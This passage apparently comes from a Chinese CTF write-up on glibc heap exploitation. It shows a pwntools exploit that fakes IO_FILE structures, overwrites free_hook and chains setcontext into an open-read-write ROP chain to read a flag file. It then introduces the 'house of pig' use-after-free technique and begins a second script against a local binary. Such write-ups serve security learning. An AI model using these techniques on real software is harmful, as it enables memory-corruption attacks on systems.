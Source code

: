 ```python
def change(addr,context):
    edit(0,p64(1))
    edit(1,p64(addr))
    add(2)
    edit(2,context)
 
length=0x230
start = heap_base + 0x600
end = start + ((length) - 100)//2
# 布置IO
change(heap_base+0x30,p64(1)+p64(0xffffffffffff))
change(heap_base+0x40,p64(0)+p64(start))
change(heap_base+0x50,p64(end))
change(heap_base+0xd0,p64(0))
change(heap_base+0xe0,p64(0)+p64(IO_str_jumps))

# 设置跳转
change(heap_base+0x1a0,p64(free_hook))# 用于malloc
change(heap_base+0x600,p64(magic)+p64(heap_base+0x700))# 用于mempy
change(heap_base+0x720,p64(setcontext+61))# 用于magic跳转
change(heap_base+0x7a0,p64(heap_base+0x800)+p64(pop_rdi))# 用于setcontext
change(heap_base+0x7c0,'flag'.ljust(0x10,'\x00'))
change(heap_base+0x800,p64(heap_base+0x7c0)+p64(pop_rsi))# ORW
change(heap_base+0x810,p64(0)+p64(Open))
change(heap_base+0x820,p64(pop_rdi)+p64(3))
change(heap_base+0x830,p64(pop_rsi)+p64(heap_base+0x900))
change(heap_base+0x840,p64(pop_rdx)+p64(0x50))
change(heap_base+0x850,p64(Read)+p64(pop_rdi))
change(heap_base+0x860,p64(1)+p64(Write))

edit(1,p64(free_hook))
edit(0,p64(1))
add(2) # _IO_flush_all_lockp
p.interactive()
```



### house of pig(Tcache Stashing Unlink/2.31uaf)

![image-20220606221818559](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220606221818559.png)

漏洞点在于mpp+0x128为free的标志位，free后会置1，而在保存用户环节却没有保存这一元素，导致在加载时此位置被重置，实现UAF

![image-20220606222027119](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220606222027119.png)

```python
from pwn import *
# context.log_level = 'debug'
context.arch='amd64'
p = process('./pig')
elf = ELF("pig")
libc = elf.libc
#elf=ELF('./pwn')

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
```